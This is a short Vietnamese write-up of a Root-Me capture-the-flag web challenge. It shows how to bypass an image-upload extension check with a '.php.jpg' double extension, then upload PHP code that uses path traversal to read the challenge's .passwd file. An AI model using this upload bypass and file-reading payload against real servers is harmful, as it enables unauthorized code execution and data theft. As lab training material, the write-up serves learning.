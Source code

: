 Rootme cho chúng ta biết password nằm ở file .passwd trong thư mục root, nhưng khi truy cập vào đó ta nhận được code 403, vậy không thể xem nội dung file theo cách thông thường



Có 1 gợi ý rất rõ ràng: `hack this photo galery by uploading PHP code`, vậy ta tìm đến chỗ upload ảnh up thử 1 file `harm.php` có nội dung đơn giản như sau:

```php
<? php echo 'Hello world'; ?>
```

nhưng kết quả là incorrect extension, có thể do server đã check extension của file tải lên. Do đó ta đổi tên file thành `harm.php.jpg` và upload lại, kết quả thành công và khi bấm vào đường dẫn của file sẽ ra nội dung sau:

> Hello world

Vậy ta biết file php đó vừa được thực thi. Viết 1 file `harm1.php` khác:

```php
 <?php
$file = fopen("../../../.passwd", "r");

while(! feof($file)) {
  $line = fgets($file);
  echo $line. "<br>";
}

fclose($file);
?> 
```

nhằm đọc toàn bộ nội dung file .passwd của hệ thống, thêm extension .jpg vào sau và upload, ta sẽ có được password